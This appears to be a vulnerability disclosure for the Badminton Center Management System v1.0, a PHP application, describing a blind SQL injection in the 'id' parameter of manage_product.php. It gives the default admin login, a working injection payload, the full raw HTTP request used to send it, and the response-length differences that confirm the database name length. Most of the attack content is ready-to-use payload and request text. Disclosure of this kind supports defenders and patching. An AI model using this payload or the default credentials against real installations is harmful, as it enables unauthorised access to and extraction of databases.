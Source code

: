 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File: /bcms/admin/products/manage_product.php?id=

Vulnerability location: /bcms/admin/products/manage_product.php?id=,id

[+] Payload: /bcms/admin/products/manage_product.php?id=5%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /bcms/admin/products/manage_product.php?id=5%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 2155
![image](https://user-images.githubusercontent.com/54017627/170621280-264e8731-dd0b-4d83-bc58-23aa84bc282f.png)

![image](https://user-images.githubusercontent.com/54017627/170621175-3d52401c-bfbe-415b-a10b-6dc6283ff514.png)

When length (database ()) = 7, Content-Length: 2181
![image](https://user-images.githubusercontent.com/54017627/170621325-48907911-afab-40b9-a589-9ff69cc52c7c.png)

![image](https://user-images.githubusercontent.com/54017627/170621157-c7b790cd-85e6-473d-8dc2-bb29a8d8ea39.png)

